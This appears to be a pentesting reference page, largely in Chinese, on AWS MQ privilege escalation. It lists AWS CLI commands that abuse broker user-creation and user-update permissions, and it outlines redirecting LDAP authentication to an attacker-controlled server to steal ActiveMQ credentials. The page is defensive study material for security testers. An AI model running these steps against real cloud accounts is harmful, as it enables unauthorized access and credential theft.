 # AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

有关 MQ 的更多信息，请查看：

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

拥有这些权限，你可以 **在 ActimeMQ broker 中创建一个新用户**（这在 RabbitMQ 中不起作用）：
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**潜在影响：** 通过在 ActiveMQ 中导航访问敏感信息

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

拥有这些权限后，你可以 **在 ActimeMQ broker 中创建新用户**（这在 RabbitMQ 中无效）：
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potential Impact:** 通过 ActiveMQ 导航访问敏感信息

### `mq:ListBrokers`, `mq:UpdateBroker`

如果 broker 使用 **LDAP** 与 **ActiveMQ** 进行授权，攻击者可以 **更改** 所使用的 LDAP 服务器的 **配置**，将其指向 **由 attacker 控制的服务器**。这样攻击者将能够 **窃取通过 LDAP 发送的所有 credentials**。
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
如果你能找到 ActiveMQ 使用的原始凭证，你可以进行 MitM，窃取这些 creds，在原服务器上使用它们并发送响应（也许只需重用被窃取的 creds 就能做到）。

**Potential Impact:** 窃取 ActiveMQ 凭证

{{#include ../../../../banners/hacktricks-training.md}}
